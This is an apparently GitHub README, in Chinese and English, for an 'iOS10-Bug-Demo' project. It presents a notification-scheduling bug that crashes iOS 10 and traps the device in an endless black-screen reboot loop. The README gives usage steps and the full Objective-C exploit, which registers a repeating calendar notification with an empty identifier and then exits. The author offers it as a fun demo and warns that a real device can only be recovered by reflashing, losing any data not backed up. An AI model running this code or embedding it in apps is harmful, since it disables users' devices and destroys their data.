 iOS10-Bug-Demo
==============
[![preview](https://travis-ci.org/Joker-388/MessageImageCategory.svg?branch=master)](http://www.jianshu.com/u/95d5ea0acd19)&nbsp;<br><br>
[![preview](https://github.com/Joker-388/iOS10-Bug-Demo/blob/master/Preview/crash1.gif)](http://www.jianshu.com/u/95d5ea0acd19)&nbsp;
<br><br>
这个是我在研究iOS10添加的新特性时候无意发现了一个系统漏洞，可以让iOS黑屏重启，经过了简单的优化，能让iOS系统立即崩溃并无限黑屏重启，这里分享一下Demo，建议在虚拟机跑，无限重启后选择虚拟机reset content and settings就可以恢复。

友情提示：别在真机跑，不然真机也会无限重启，只能通过iTunes调试模式重新刷机恢复，数据未备份会全部丢失。

觉得好玩顺手点一个star，前期说谢谢啦。
==============

<br/>
---
使用方法：
==============
1.点击准备按钮，同意app发送通知。<br>
2.点击开始按钮，app崩溃，设备无限黑屏重启。<br>

<br/>
---
English
==============
Let ios10 crash and restart by circle. You can try it both on simulator and device.<br>
Tip: If you run it on device, you can only reinstall the system with iTunes. <br>
1.Click ready button, allow app authorization.<br>
2.Click start button, app clash, and device restart again and again.<br>
<br/>
---
Code
==============
 ```objective-c		 
     UNMutableNotificationContent *content = [[UNMutableNotificationContent alloc] init];		
     content.badge = @2;		
     content.body = @"body";		
     content.sound = [UNNotificationSound defaultSound];		
     content.subtitle = @"subtitle";		
     content.title = @"title";		
     		
     NSDate *date = [NSDate new];		
     NSDateFormatter *formatter = [NSDateFormatter new];		
     [formatter setDateFormat:@"yyyy"];		
     NSInteger currentYear=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"MM"];		
     NSInteger currentMonth=[[formatter stringFromDate:date]integerValue];		
     [formatter setDateFormat:@"dd"];		
     NSInteger currentDay=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"HH"];		
     NSInteger currentHour=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"mm"];		
     NSInteger currentMinute=[[formatter stringFromDate:date] integerValue];		
     [formatter setDateFormat:@"ss"];		
     NSInteger currentSecond=[[formatter stringFromDate:date] integerValue];		
     		
     if (currentSecond + 2 > 59) {		
         currentMinute = currentMinute + 1;		
         currentSecond = 0;		
     } else {		
         currentSecond = currentSecond + 2;		
     }		
     		
     NSDateComponents *components = [NSDateComponents new];		
     components.year = currentYear;		
     components.month = currentMonth;		
     components.day = currentDay;		
     components.hour = currentHour;		
     components.minute = currentMinute;		
     components.second = currentSecond;		
     		
     UNCalendarNotificationTrigger *trigger = [UNCalendarNotificationTrigger triggerWithDateMatchingComponents:components repeats:YES];		
     UNNotificationRequest *request = [UNNotificationRequest requestWithIdentifier:@"" content:content trigger:trigger];		
     [[UNUserNotificationCenter currentNotificationCenter] addNotificationRequest:request withCompletionHandler:^(NSError * _Nullable error) {		
         exit(0);		
     }];		
 ```

